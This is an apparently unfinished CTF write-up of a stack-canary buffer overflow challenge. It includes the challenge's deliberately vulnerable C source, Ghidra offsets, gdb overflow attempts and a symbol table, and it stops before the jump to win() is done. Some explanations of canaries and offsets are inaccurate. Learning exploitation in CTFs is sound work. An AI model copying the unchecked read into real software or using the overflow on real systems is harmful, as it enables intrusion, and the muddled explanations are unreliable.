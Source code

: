 # CTF Challenge: Buffer_Overflow_3

## Table of Content

- commands-executed:   checksec --file=vuln
- flag :


### Chain of thought / Learning:
- Okay so guessing by the name of the challenge its a buffer overflow exploit.
- on downloading the files and analyzing using **checksec --file=vuln** command we see that the function has canary protection.
- what is a canary? it is a protection mech against buffer overflow exploits and the way it works is it places a heap of memory between the return address and the buffer memory, when we perform a buffer exploit what we do is write till the return address to get the flag. When canary is enabled it is also overwritten the program performs a basic check that whether the canary is re written or wnot, if it is it crashes.
- so to handle this challenge there are 2 things i need to take care of finding out what is the canary(locally i can create a canary.txt and place my choice of string in it to do the overflow)
- second i need to actually do the overflow exploit.
- so locally i perform the buffer overflow first by creating a canary.txt and providing random input here its flag.
- analyzing the code, there are 2 specific variables i m focused on the canary variable and the buffer itself
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64
#define CANARY_SIZE 4

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    fflush(stdout);
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
  puts(buf);
  fflush(stdout);
}

char global_canary[CANARY_SIZE];
void read_canary() {
  FILE *f = fopen("canary.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'canary.txt' in this directory with your",
                    "own debugging canary.\n");
    fflush(stdout);
    exit(0);
  }

  fread(global_canary,sizeof(char),CANARY_SIZE,f);
  fclose(f);
}

void vuln(){
   char canary[CANARY_SIZE];
   char buf[BUFSIZE];
   char length[BUFSIZE];
   int count;
   int x = 0;
   memcpy(canary,global_canary,CANARY_SIZE);
   printf("How Many Bytes will You Write Into the Buffer?\n> ");
   while (x<BUFSIZE) {
      read(0,length+x,1);
      if (length[x]=='\n') break;
      x++;
   }
   sscanf(length,"%d",&count);

   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("***** Stack Smashing Detected ***** : Canary Value Corrupt!\n"); // crash immediately
      fflush(stdout);
      exit(0);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  read_canary();
  vuln();
  return 0;
}
```

- on analyzing with ghidra to find the diff in offset of these variables

![ghidra](https://github.com/user-attachments/assets/b29b4ba1-a11e-4941-80f6-0aff2a7aa220)

- we can see that the canary variable is at -0x14 and the buffer is at -0x54 which is 20 and 84 in decimal and the diff happens to be 64 exactly.
- after a lot of searches what my understnding is that the diff bw the buffer and the return address is 20 bytes.
- so now when i run the file and enter 64 bytes of data with a faulty canary it should crash and with the right one it should be fine

```console
How Many Bytes will You Write Into the Buffer?
> 72
Input> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAbbbbbbbb
Ok... Now Where's the Flag?
[Inferior 1 (process 38104) exited normally]
(gdb) 
(gdb) r
Starting program: /home/anonymous/investigation/vuln1 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
How Many Bytes will You Write Into the Buffer?
> 74
Input> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAbbbbbbflag    
***** Stack Smashing Detected ***** : Canary Value Corrupt!
[Inferior 1 (process 38193) exited normally]
(gdb) 
(gdb) r
Starting program: /home/anonymous/investigation/vuln1 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
How Many Bytes will You Write Into the Buffer?
> 73
Input> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAbbbbbbbbb
***** Stack Smashing Detected ***** : Canary Value Corrupt!
[Inferior 1 (process 38370) exited normally]
(gdb) 
(gdb) r
Starting program: /home/anonymous/investigation/vuln1 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
How Many Bytes will You Write Into the Buffer?
> 72
Input> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAbbbbbbbb
Ok... Now Where's the Flag?
[Inferior 1 (process 38459) exited normally]
(gdb) 
(gdb) r 
Starting program: /home/anonymous/investigation/vuln1 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
How Many Bytes will You Write Into the Buffer?
> 76 
Input> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAflag
Ok... Now Where's the Flag?
[Inferior 1 (process 38956) exited normally]

```
- okay so for me the stack smashing occurs at 72 bytes of data after 72 i m writing over the canary text so it throws an error.
- as i said locally my canary is flag so if i enter the last 4 data after 72 as flag it should take work and it does.
- i have overflowed to the read canary function all i need to do is overflow to the win function
```console
Non-debugging symbols:
0x0000555555555000  _init
0x0000555555555030  puts@plt
0x0000555555555040  fread@plt
0x0000555555555050  fclose@plt
0x0000555555555060  setresgid@plt
0x0000555555555070  printf@plt
0x0000555555555080  read@plt
0x0000555555555090  memcmp@plt
0x00005555555550a0  fgets@plt
0x00005555555550b0  fflush@plt
0x00005555555550c0  __isoc99_sscanf@plt
0x00005555555550d0  getegid@plt
0x00005555555550e0  setvbuf@plt
0x00005555555550f0  fopen@plt
0x0000555555555100  exit@plt
0x0000555555555110  __cxa_finalize@plt
0x0000555555555120  _start
0x0000555555555150  deregister_tm_clones
0x0000555555555180  register_tm_clones
0x00005555555551c0  __do_global_dtors_aux
0x0000555555555200  frame_dummy
0x0000555555555209  win
0x00005555555552a9  read_canary
0x0000555555555345  vuln
0x0000555555555470  main
0x00005555555554d8  _fini
0x00007ffff7fcc1b0  _dl_signal_exception
0x00007ffff7fcc210  _dl_signal_error
0x00007ffff7fcc410  _dl_catch_exception
0x00007ffff7fcd510  _dl_debug_state
0x00007ffff7fce670  _dl_exception_create
0x00007ffff7fce740  _dl_exception_create_format
0x00007ffff7fcebb0  _dl_exception_free
0x00007ffff7fced40  __nptl_change_stack_perm
0x00007ffff7fd3eb0  _dl_rtld_di_serinfo
0x00007ffff7fd6970  _dl_find_dso_for_object
0x00007ffff7fd83c0  _dl_fatal_printf
0x00007ffff7fd8bb0  _dl_mcount

```


#### Output:
```console

```

